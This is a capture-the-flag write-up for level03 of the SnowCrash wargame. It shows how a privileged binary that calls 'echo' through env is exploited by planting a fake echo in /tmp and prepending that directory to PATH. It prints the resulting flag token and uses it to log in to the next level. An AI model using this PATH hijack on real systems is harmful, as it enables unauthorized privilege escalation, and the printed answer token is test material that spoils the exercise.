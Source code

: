 # level03

Using ls we can directly see there is a binary.

```bash
level03@SnowCrash:~$ ls
level03
level03@SnowCrash:~$ ./level03 
Exploit me
```

Ok, let's use readelf to find strings in binary. (Option -p, --string-dump)

```bash
level03@SnowCrash:~$ readelf -p .rodata ./level03

String dump of section '.rodata':
  [     8]  /usr/bin/env echo Exploit me
```

Ok, let's spoof the echo binary.

```bash
level03@SnowCrash:~$ touch echo
touch: cannot touch `echo': Permission denied
```

No permissions, let's move to /tmp.

``` bash
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:/tmp$ echo "/bin/getflag" > echo
level03@SnowCrash:/tmp$ chmod 777 echo                  # Dont forget to change permissions
level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
level03@SnowCrash:/tmp$ cd -
/home/user/level03
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ 
```

Perfect, let's move to the level04.

```bash
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$ 
```
